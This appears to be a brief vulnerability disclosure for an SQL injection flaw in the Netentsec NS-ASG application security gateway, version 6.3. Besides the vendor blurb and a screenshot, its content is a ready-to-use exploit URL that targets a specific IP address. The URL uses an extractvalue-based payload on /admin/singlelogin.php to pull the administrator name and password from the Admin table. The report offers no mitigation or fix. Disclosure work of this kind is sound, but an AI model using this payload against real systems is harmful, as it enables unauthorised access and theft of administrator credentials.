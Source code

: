 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/singlelogin.php

https://1.85.53.53/admin/singlelogin.php?submit=1&loginId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))

<img width="621" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/11769bcc-2e30-4b74-93e6-01ab0a258540">


